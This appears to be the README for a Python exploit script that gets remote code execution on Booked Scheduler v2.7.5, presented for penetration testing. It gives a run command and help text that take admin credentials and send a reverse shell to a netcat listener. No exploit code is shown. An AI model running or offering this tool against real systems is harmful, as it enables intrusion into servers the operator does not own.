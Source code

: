 # bookedScheduler_v2.7.5_RCE
Automatic exploitation script written in python 3 to exploit "Book Scheduler v2.7.5"

<hr>

#### 1. Basic Usage: 
```txt
$ python3 booked_sheduler.py --url http://127.0.0.1 -u <admin> -p <adminpass> -P <pentesterPort> -H <pentesterIP>
```

#### 2. Help Menu:
```txt
usage: booked_scheduler.py [-h] [--url URL] [-u USER] [-p PASSWORD] [-P LPORT] [-H LHOST]

--- Booked Scheduler v2.7.5 ---

optional arguments:
  -h, --help            show this help message and exit
  --url URL             url (i.e http://192.168.167.64/booked/Web)
  -u USER, --user USER  ADMIN user
  -p PASSWORD, --password PASSWORD
                        ADMIN password
  -P LPORT, --lport LPORT
                        Netcat's port to catch reverse shell
  -H LHOST, --lhost LHOST
                        Netcat's host to catch reverse shell
```

#### 3. Example

![](Example.gif)
